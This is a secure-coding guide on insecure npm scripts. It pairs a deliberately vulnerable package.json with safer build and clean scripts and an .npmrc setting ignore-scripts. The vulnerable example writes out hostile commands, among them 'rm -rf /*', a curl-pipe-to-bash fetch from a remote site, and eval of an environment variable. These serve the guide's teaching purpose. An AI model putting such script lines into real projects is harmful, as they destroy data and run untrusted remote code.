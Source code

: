 ```yaml
---
title: Insecure NPM Scripts
description: Securing npm scripts and preventing script injection attacks
---
```


# Insecure NPM Scripts

## Common Misconfigurations

1. **Running untrusted packages' scripts automatically**
2. **Using unsafe script commands**
3. **Not validating environment variables in scripts**
4. **Missing script injection protection**
5. **Excessive permissions in scripts**

## Vulnerable Example

```json
// package.json with insecure scripts
{
  "name": "insecure-scripts-app",
  "scripts": {
    // Command injection vulnerability
    "build": "echo Building $npm_package_version && webpack",
    
    // Unsafe rm command
    "clean": "rm -rf /*",
    
    // Downloading and executing remote scripts
    "setup": "curl -s https://unknown-site.com/script.sh | bash",
    
    // Using eval with user input
    "process": "node -e \"eval(process.env.USER_INPUT)\"",
    
    // No validation on file operations
    "deploy": "cp -r ./* $DEPLOY_PATH",
    
    // Running with elevated privileges
    "install": "sudo npm link"
  }
}

// No .npmrc security settings
// No ignore-scripts configuration
```

## Secure Solution

```json
// package.json with secure scripts
{
  "name": "secure-scripts-app",
  "scripts": {
    // Safe, validated commands
    "build": "node scripts/build.js",
    "clean": "node scripts/clean.js",
    "test": "jest --coverage",
    "lint": "eslint src/",
    
    // Use npm run-script for chaining
    "prebuild": "npm run clean",
    "postbuild": "npm run test",
    
    // Validated deployment
    "deploy": "node scripts/deploy.js --validate"
  }
}
```

```settings
# .npmrc with security configurations
ignore-scripts=true
audit-level=moderate
fund=false
```

```code
// scripts/build.js - Secure build script
const { execSync } = require('child_process');
const path = require('path');

// Validate environment
const version = process.env.npm_package_version;
if (!/^\d+\.\d+\.\d+$/.test(version)) {
  throw new Error('Invalid version format');
}

// Use safe paths
const buildPath = path.join(__dirname, '..', 'dist');

// Execute with limited permissions
try {
  execSync('webpack --mode production', {
    stdio: 'inherit',
    cwd: process.cwd(),
    env: {
      ...process.env,
      NODE_ENV: 'production'
    }
  });
} catch (error) {
  console.error('Build failed:', error.message);
  process.exit(1);
}
```

```code
// scripts/clean.js - Safe cleanup script
const fs = require('fs').promises;
const path = require('path');

const ALLOWED_PATHS = ['dist', 'build', '.cache'];

async function clean() {
  for (const dir of ALLOWED_PATHS) {
    const fullPath = path.join(process.cwd(), dir);
    
    // Validate path is within project
    if (!fullPath.startsWith(process.cwd())) {
      console.error(`Invalid path: ${dir}`);
      continue;
    }
    
    try {
      await fs.rm(fullPath, { recursive: true, force: true });
      console.log(`Cleaned: ${dir}`);
    } catch (error) {
      // Directory doesn't exist, skip
    }
  }
}

clean().catch(console.error);
```

## Best Practices

* Set ignore-scripts=true in .npmrc.
* Validate all environment variables.
* Use dedicated script files instead of inline commands.
* Avoid shell command execution when possible.
* Implement proper input validation.
* Never use eval() or Function() with user input.